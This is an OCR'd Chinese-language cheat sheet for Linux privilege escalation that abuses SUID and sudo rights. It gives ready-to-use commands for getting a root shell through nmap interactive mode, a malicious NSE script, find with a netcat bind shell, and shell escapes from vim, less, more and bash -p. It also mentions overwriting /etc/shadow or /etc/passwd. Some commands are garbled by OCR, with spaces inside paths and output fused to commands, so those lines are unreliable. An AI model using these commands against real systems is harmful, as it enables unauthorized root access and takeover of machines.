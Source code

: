 也可以使用 sudo -l 命令列出当前用户可执行的命令

### 常用提权方式

**nmap**

`find / -perm -u = s -type f 2> / dev / null `–查找设置了SUID位的可执行文件

`ls -la / usr / local / bin / nmap` –让我们确认nmap是否设置了SUID位。

Nmap的SUID位置1。很多时候，管理员将SUID位设置为nmap，以便可以有效地扫描网络，因为如果不使用root特权运行它，则所有的nmap扫描技术都将无法使用。

但是，nmap（2.02-5.21）存在交换模式，可利用提权，我们可以在此模式下以交互方式运行nmap，从而可以转至shell。如果nmap设置了SUID位，它将以root特权运行，我们可以通过其交互模式访问’root’shell。

`nmap –interactive` –运行nmap交互模式！sh –我们可以从nmap shell转到系统shell

**msf**中的模块为：

`exploit/unix/local/setuid_nmap`

**较新版可使用 —script 参数：**

`echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse && sudo nmap —script=/tmp/shell.nse`

**find**

`touch test`

**nc** **反弹 shell：**

`find test -exec netcat -lvp 5555 -e /bin/sh \;`

**vi/vim**

Vim的主要用途是用作文本编辑器。但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。

打开vim,按下ESC

`:set shell=/bin/sh:shell`

或者

`sudo vim -c ‘!sh’`

**bash**

**以下命令将以**root**身份打开一个**bash shell**。**

`bash -pbash-3.2# iduid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)`

**less**

程序Less也可以执行提权后的shell。同样的方法也适用于其他许多命令。

`less /etc/passwd!/bin/sh`

**more**

`more /home/pelle/myfile!/bin/bash`

**cp**

覆盖` /etc/shadow 或 /etc/passwd`
